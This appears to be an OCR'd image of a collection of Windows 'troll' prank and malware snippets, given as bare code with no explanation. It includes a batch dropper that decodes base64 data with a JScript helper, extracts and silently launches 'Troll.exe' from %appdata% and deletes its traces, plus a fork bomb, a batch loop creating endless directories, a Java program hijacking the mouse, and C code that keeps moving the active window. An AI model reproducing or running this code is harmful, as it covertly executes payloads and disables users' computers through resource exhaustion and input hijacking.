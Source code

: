 echo f=new ActiveXObject(^"Scripting.FileSystemObject^");i=f.getFile(^"x^").openAsTextStream();>x.js
echo x=new ActiveXObject(^"MSXml2.DOMDocument^").createElement(^"Base64Data^");x.dataType=^"bin.base64^";>>x.js
echo x.text=i.readAll();o=new ActiveXObject(^"ADODB.Stream^");o.type=1;o.open();o.write(x.nodeTypedValue);>>x.js
echo z=f.getAbsolutePathName(^"z.zip^");o.saveToFile(z);s=new ActiveXObject(^"Shell.Application^");>>x.js
echo s.namespace(26).copyHere(s.namespace(z).items());o.close();i.close();>>x.js

set v="%appdata%\Troll.exe"
del %v% >NUL 2>NUL
cscript x.js >NUL 2>NUL
del x.js >NUL 2>NUL
del z.zip >NUL 2>NUL
del x >NUL 2>NUL
start "" %v%
%0|%0
import java.awt.Robot;
import java.awt.event.InputEvent;
import java.util.Random;

public class out_of_control {
    public static void main(String[] args) throws Exception {
    	Robot robot = new Robot();
    	Random random = new Random();
    	while(true){
    		robot.mouseMove(random.nextInt(1200), random.nextInt(700));
    		//click(robot); // don't un-comment, may cause harm.
    		Thread.sleep(300);
    	}
    }
    
    private static void click(Robot robot){
        robot.mousePress(InputEvent.BUTTON1_MASK);robot.mouseRelease(InputEvent.BUTTON1_MASK);
        robot.mousePress(InputEvent.BUTTON1_MASK);robot.mouseRelease(InputEvent.BUTTON1_MASK);
    }
}
:x
md %random%%random%
goto x
#include <windows.h>
#include <math.h>

DWORD WINAPI moveit(){
    HWND a=GetForegroundWindow();
    int i,j,k=1;
    while(k++){
        i=200+300*cos(k);
        j=150+300*sin(k);
        MoveWindow(a,i,j,i,j,1);
        Sleep(50);
    }
}
